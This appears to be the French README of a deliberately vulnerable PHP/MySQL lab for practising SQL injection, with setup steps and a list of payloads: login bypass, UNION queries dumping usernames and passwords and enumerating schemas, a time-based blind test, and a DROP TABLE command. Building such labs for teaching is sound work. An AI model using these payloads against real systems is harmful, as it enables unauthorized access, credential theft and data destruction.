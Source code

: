 # Labo d'Injection SQL - Site Vulnérable

Ce projet est un environnement local vulnérable à l'**injection SQL (SQLi)**, conçu pour t’aider à apprendre les bases du hacking éthique en toute sécurité. Il inclut une page de login, une page d’accueil protégée, et des exemples pratiques pour tester les injections SQL.

> ⚠️ Ce projet est uniquement destiné à des fins pédagogiques. N'utilisez jamais ces techniques sur des systèmes sans autorisation explicite.

---

## 📁 Structure du projet
Site Vulnérable

├── index.php      : Page protégée

├── login.php      : Connexion vulnérable

├── logout.php     : Déconnexion

├── config.php     : Config BDD

├── database.sql   : Création base

├── style.css      : Style

└── README.md      : Ce fichier


---

## 🛠️ Technologies utilisées

- **PHP** – Pour la logique côté serveur
- **MySQL** – Base de données
- **HTML/CSS** – Interface utilisateur
- **PDO** – Connexion à la base de données (vulnérable dans sa version initiale)

---

## 🧱 Objectif

Ce labo permet d'apprendre :
- Comment détecter une vulnérabilité SQLi
- Comment exploiter une injection SQL manuellement
- Comment automatiser l’attaque avec `sqlmap`
- Comment corriger la faille de sécurité

---

## 🔧 Installation locale

### 1. Cloner le projet
```bash
https://github.com/HoussamElBouamraoui/sqlinjections- 

```
### 2. Importer la base de données
```bash
mysql -u root -p < database.sql
```
### 3. Démarrer le serveur local 

**Utilise XAMPP , WAMP , MAMP ou LAMP :**

**Place le dossier dans htdocs/ (pour XAMPP)**

**Accède au site via : http://localhost/mon-site-sql/login.php**

---


## 🧪 Exemples d’injections SQL à tester

Tu peux utiliser ces payloads SQLi pour détecter et exploiter une vulnérabilité sur ton site web.

### 🔐 Bypass du login (Login bypass)

Permet de se connecter sans connaître le mot de passe :

```sql
Nom d'utilisateur : ' OR '1'='1
Mot de passe : whatever
```

### 📚 Récupérer des données sensibles
```sql
Nom d'utilisateur : ' UNION SELECT 1, username, password FROM users--
Mot de passe : whatever
```

### 🗂️ Lister les bases de données 
```sql 
' UNION SELECT 1, schema_name, 3 FROM information_schema.schemata--
```
 
### 📄 Lister les tables d’une base 
```sql
' UNION SELECT 1, table_name, 3 FROM information_schema.tables WHERE table_schema = 'nom_base'--
```

### 📑 Lister les colonnes d’une table
Pour trouver les noms des colonnes (ex: username, password) :
```sql
' UNION SELECT 1, column_name, 3 FROM information_schema.columns WHERE table_name = 'users'--
```

### 🔍 Afficher les données d’une table
Exemple pour afficher les identifiants stockés :
```sql
' UNION SELECT 1, username, password FROM users--
```

### ⏱️ Injection SQL aveugle (Blind SQLi)
Utiliser avec une réponse basée sur le temps :
```sql
' AND IF(1=1, SLEEP(5), 0)-- 
```
Teste si le serveur met 5 secondes à répondre → injection réussie !

🧹 Supprimer une table (⚠️ Dangereux – À utiliser uniquement en labo)
Efface la table users (ne le fais QUE sur ton propre site) :
```sql
'; DROP TABLE users;--
```




